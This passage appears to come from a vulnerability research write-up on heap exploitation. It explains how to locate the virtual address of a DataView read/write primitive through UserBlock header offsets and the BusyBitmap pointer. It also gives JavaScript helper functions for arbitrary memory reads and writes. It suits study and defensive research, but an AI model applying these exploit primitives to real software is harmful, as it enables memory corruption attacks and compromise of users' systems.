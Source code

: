                `offset = chunk number * chunk size + 0x08 + 0x10 + 4 * m`
               
       4. Obtain the virtual address (VA) of the `BitmapData` in the UserBlock structure.
           - According to the structure of the UserBlock, retrieve the value stored in the pointer (address of `BitmapData`).[Figure 6] Structure of the UserBlock Header
               - The `BusyBitmap.Buffer` (Pointer) is located at an address 0x0C bytes higher than the Signature.
               - Thus, the offset between the R/W primitive and `BusyBitmap.Buffer` can be calculated as follows:
               
               `offset = chunk number * chunk size + 0x08 + 0x10 + 4 * m - 0x0c`
               
                ![image](https://github.com/user-attachments/assets/20e53ca7-c724-4d59-b4b7-232742a18cf9)
               **[Figure 6] Structure of the UserBlock Header**
               
               `&BitmapData = rw.getUint32(0xffffffff+0x1-offset, true)`
               
       5. Calculate the virtual address (VA) of the R/W primitive.
           - The following values are needed for this calculation:
               1. The offset obtained in step 4:
                   
                   `offset = chunk number * chunk size + 0x08 + 0x10 + 4 * m - 0x0c`
                   
               2. The VA obtained in step 4.
               3. The size between the Pointer and `BitmapData` (size of the Pointer, 0x04 bytes).
           - Using these values, the VA of the R/W primitive, `startAddr`, can be calculated as follows:
               - `startAddr = rw.getUint32(0xffffffff+0x1-offset, true) + offset - 0x04`
       6.  With the VA of the R/W primitive, you can access any memory area by its address.
           
           ```jsx
            function readUint32(dataView, readAddr) {
              var offsetAddr = readAddr - StartAddr;
              if (offsetAddr < 0) {
                offsetAddr = offsetAddr + 0xFFFFFFFF + 1;
              }
              return dataView.getUint32(offsetAddr, true);
            }
            
            function writeUint32(dataView, writeAddr, value) {
              var offsetAddr = writeAddr - StartAddr;
              if (offsetAddr < 0) {
                offsetAddr = offsetAddr + 0xFFFFFFFF + 1
              }
              return dataView.setUint32(offsetAddr, value, true);
            }
            ```
           
           - The two functions mentioned above serve as helper functions that assist in controlling the values pointed to by arbitrary VAs (`readAddr`, `writeAddr`).
           
           ---
           
           **The operation of the Helper Functions is as follows:**
           
           1. When provided with the VA of a specific memory location, the helper function calculates the offset between this VA and the R/W primitive's VA.
           2. The helper function then uses the DataView object of the R/W primitive to control the value at the offset position calculated in step 1.
               